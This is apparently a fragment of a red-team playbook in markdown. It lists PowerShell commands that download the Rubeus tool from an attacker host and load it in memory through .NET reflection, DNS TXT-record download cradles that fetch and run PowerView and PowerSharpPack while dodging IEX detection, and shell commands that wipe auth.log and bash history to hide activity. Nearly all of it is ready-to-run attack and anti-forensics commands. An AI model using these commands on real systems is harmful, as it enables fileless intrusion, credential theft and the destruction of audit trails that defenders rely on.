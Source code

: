 ## .Net Reflection

```c
PS C:\> $d = (New-Object System.Net.WebClient).DownloadData('http://<LHOST>/Rubeus.exe')
PS C:\> $a = [System.Reflection.Assembly]::Load($d)
PS C:\> [Rubeus.Program]::Main("-h".Split())
```

## Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)

Instead of using `IEX` and `IWR` within assessments, try this:

* Host a text record with the payload at one of the unburned domains

| Name | Type | Value | TTL |
| --- | --- | --- | --- |
| cradle1 | TXT | "IEX(New-Object Net.WebClient).DownloadString($URI)" | 3600 |

```c
C:\> powershell . (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
```

```c
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1"""";'(nslookup -q=txt cradle1.domain.example)[-1]';Get-Domain'
```

Example with `PowerSharpPack`.

```c
C:\> powershell
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1"""";'(nslookup -q=txt cradle1.example.domain)[-1]';PowerSharpPack'
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/5-Installation/files/bypass.png">
</p>

### Concatinate Payloads

```c
PS C:\> powershell . (-Join (Resolve-DnsName -Type txt https://<DOMAIN>).Strings)
```

## Bash History Handling

```c
$  <COMMAND>
$ echo "" > /var/log/auth.log
$ echo "" > ~/.bash_history
$ rm ~/.bash_history
$ history -c
$ export HISTFILESIZE=0
$ export HISTSIZE=0
$ export HISTFILE=/dev/null
$ kill -9 $$
$ ln /dev/null ~/.bash_history -sf
$ ln -sf /dev/null ~/.bash_history && history -c && exit
```
